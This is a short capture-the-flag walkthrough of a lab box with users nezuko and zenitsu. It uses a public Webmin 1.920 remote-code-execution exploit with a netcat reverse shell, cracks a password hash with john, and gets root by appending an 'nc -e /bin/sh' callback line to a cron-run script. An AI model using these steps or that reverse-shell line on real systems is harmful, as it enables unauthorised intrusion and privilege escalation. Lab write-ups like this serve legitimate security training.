






### **Netdiscover**

We use the tools called netdiscover scan hosts, we found the 192.168.0.106 is our target virtualbox host ip.

------

### **Namp**

We found some services  <u>SSH</u>, <u>HTTP</u>, <u>HTTP(webmin)</u>

------

### Solution

By googling webmin 1.920, we can find there exists a Remote code Execution Attack.We can download from 

[https://www.exploit-db.com/exploits/47293](https://www.exploit-db.com/exploits/47293)

run this exploit bash, we can find this webmin system is vulnerable.

so we use instead his cmd with our reverse shell.

We nc listen 2333,  run this exploit , we can connect to this host.

Now we go into nezuko home directory, we found a .ssh directory and a nezuko.txt(flag)

We put our authorized_keys upload, so that we can use shell better.

we go into from_zenitsu directory, found root may log in this directory.

emmm......

now we return /home directory, we found zenitsu, go into zenitsu home directory, found zenitsu.txt（flag）

luckily, we found a send_message_to_nezuko.sh, have group zenitsu:root privilege.

So the scripts may be run by crontab in user called root .

poorly,  we don't own the zenitsu privilege, so we cat /ect/passwd, found his password hash.

So we use john to brute force this password, the password is meowmeow.

We ssh login user zenitsu with his password. otherwise, zenitsu is not allowed to login in ssh, so we

su - zenitsu, successfully.

so we `echo 'nc -e /bin/sh 192.168.0.105 2334' >> send_message_to_nezuko.sh`

wait a little time , we can connect from user root.

that's all, thanks for reading ^_^

------

**That' all , Thanks for your watching**
